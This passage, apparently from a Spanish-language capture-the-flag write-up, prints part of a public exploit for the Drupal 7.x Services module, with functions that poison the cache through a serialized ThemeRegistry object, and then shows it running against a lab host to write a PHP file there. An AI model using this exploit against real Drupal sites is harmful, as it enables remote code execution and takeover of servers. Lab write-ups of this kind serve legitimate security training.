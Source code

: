 ```php
# Cache

function cache_poison($endpoint, $cache)
{
    $tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
    cache_edit($tr);
}

function cache_reset($endpoint, $cache)
{
    $tr = new ThemeRegistry($cache, $endpoint, null, null);
    cache_edit($tr);
}

function cache_edit($tr)
{
    global $browser;
    $data = serialize([$tr]);
    $json = $browser->post(TYPE_PHP, $data);
}

# Utils

function x($message)
{
    print("$message\n");
}

function e($message)
{
    x($message);
    exit(1);
}

function store($name, $data)
{
    $filename = "$name.json";
    file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
    x("Stored $name information in $filename");
}

```

Ahora si, procedemos a ejecutar el exploit:

```bash
❯ php drupal_rce.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9//k4miyo.php
```
